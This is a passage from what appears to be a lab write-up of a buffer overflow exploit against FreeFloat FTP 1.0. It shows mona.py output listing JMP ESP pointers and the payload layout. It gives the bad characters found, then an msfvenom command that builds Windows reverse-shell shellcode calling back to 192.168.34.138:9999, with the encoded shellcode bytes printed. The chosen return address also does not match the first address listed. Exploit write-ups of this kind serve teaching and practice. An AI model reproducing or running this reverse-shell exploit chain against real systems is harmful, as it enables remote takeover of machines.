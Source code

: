 ```
662EB24F     0x662eb24f : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [hnetcfg.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\hnetcfg.dll)
77E4CDE9     0x77e4cde9 : "\xFF\xE4" |  {PAGE_READONLY} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77E5D1C6     0x77e5d1c6 : "\xFF\xE4" |  {PAGE_READONLY} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77F31D2F     0x77f31d2f : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [GDI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\GDI32.dll)
662F8EAB     0x662f8eab : "\xFF\xE4" |  {PAGE_READONLY} [hnetcfg.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\hnetcfg.dll)
662FB5A7     0x662fb5a7 : "\xFF\xE4" |  {PAGE_READONLY} [hnetcfg.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\hnetcfg.dll)
7E429353     0x7e429353 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)
7E4456F7     0x7e4456f7 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open find.txt...
0BADF00D       Found a total of 2304 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.562000
```
In this instance, there are loads of instructions I could use. The top address will do nicely: `0x77fab227`.  
I send over a test payload:  
[OFFSET][JMP ESP][INTERRUPTS]

![UI Screenshot](_HaX0r/00b%20-%20Staging/___Writeups/Binary_Exploitation/BOF_FreefloatFTP10/img/04.png)  

The interrupts get hit.

### 3. Find bad characters
Next is to find bad characters. This is done by sending across: [OFFSET][JMP ESP][CHARACTERS] until the entire set makes it in. In this case the bad characters are found to be: `00`, `0a` and `0d`.

### 4. Generate shellcode
```bash
┌──(kali㉿kali)-[]-[~/Documents/bof]
└─$ msfvenom --arch x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.34.138 LPORT=9999 EXITFUNC=thread -b '\x00\x0a\x0d' --var-name shellcode -f python
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode =  b""
shellcode += b"\xdb\xd5\xba\xb8\x8a\x10\x40\xd9\x74\x24\xf4"
shellcode += b"\x5d\x31\xc9\xb1\x52\x83\xed\xfc\x31\x55\x13"
shellcode += b"\x03\xed\x99\xf2\xb5\xf1\x76\x70\x35\x09\x87"
shellcode += b"\x15\xbf\xec\xb6\x15\xdb\x65\xe8\xa5\xaf\x2b"
shellcode += b"\x05\x4d\xfd\xdf\x9e\x23\x2a\xd0\x17\x89\x0c"
shellcode += b"\xdf\xa8\xa2\x6d\x7e\x2b\xb9\xa1\xa0\x12\x72"
shellcode += b"\xb4\xa1\x53\x6f\x35\xf3\x0c\xfb\xe8\xe3\x39"
shellcode += b"\xb1\x30\x88\x72\x57\x31\x6d\xc2\x56\x10\x20"
shellcode += b"\x58\x01\xb2\xc3\x8d\x39\xfb\xdb\xd2\x04\xb5"
shellcode += b"\x50\x20\xf2\x44\xb0\x78\xfb\xeb\xfd\xb4\x0e"
shellcode += b"\xf5\x3a\x72\xf1\x80\x32\x80\x8c\x92\x81\xfa"
shellcode += b"\x4a\x16\x11\x5c\x18\x80\xfd\x5c\xcd\x57\x76"
shellcode += b"\x52\xba\x1c\xd0\x77\x3d\xf0\x6b\x83\xb6\xf7"
shellcode += b"\xbb\x05\x8c\xd3\x1f\x4d\x56\x7d\x06\x2b\x39"
shellcode += b"\x82\x58\x94\xe6\x26\x13\x39\xf2\x5a\x7e\x56"
```